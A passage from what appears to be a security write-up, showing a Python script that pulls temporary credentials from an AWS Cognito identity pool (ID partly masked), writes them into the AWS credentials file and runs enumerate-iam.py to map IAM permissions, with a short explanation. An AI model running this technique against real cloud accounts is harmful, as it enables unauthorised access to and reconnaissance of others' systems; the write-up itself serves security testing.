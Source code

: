 ```python
        f.write(f"aws_secret_access_key = {secret_key}\n")
        f.write(f"aws_session_token = {session_token}\n")

# Step 1: Get Identity ID
identity_pool_id = "us-east-1:7e9426f7-42af-*****-8689-00a9a4b65c1c"
command1 = [
    "aws", "cognito-identity", "get-id",
    "--identity-pool-id", identity_pool_id,
    "--region", "us-east-1"
]
identity_output = run_aws_command(command1)

if identity_output:
    identity_id = identity_output['IdentityId']
    print(f"Identity ID: {identity_id}")

    # Step 2: Get Credentials for Identity
    command2 = [
        "aws", "cognito-identity", "get-credentials-for-identity",
        "--identity-id", identity_id,
        "--region", "us-east-1"
    ]
    credentials_output = run_aws_command(command2)

    if credentials_output:
        access_key = credentials_output['Credentials']['AccessKeyId']
        secret_key = credentials_output['Credentials']['SecretKey']
        session_token = credentials_output['Credentials']['SessionToken']
        
        # Step 3: Run the IAM enumeration script and stream output
        command3 = (
            "python3 enumerate-iam.py "
            f"--access-key {access_key} "
            f"--secret-key {secret_key} "
            f"--session-token {session_token} "
            "--region us-east-1"
        )
        # Step 4: Update AWS credentials
        update_aws_credentials(access_key, secret_key,session_token)
        run_and_stream_output(command3)
    else:
        print("Failed to get credentials for identity.")
else:
    print("Failed to get identity.")
```

Let’s explain what is doing:

- getting the Get Identity ID from the command  `aws cognito-identity get-id --identity-pool-id us-east-1:7e9426f7-42af-*****-8689-00a9a4b65c1c --region us-east-1`
- Passing it to the `aws cognito-identity get-credentials-for-identity --identity-id us-east-1:15f0125a-1ff0-*****-4f0a-43cd212fed35 --region us-east-1` command and get the session and access_key.
- Then, pass all these info to the `enumerate-iam.py`tool and getting the output.
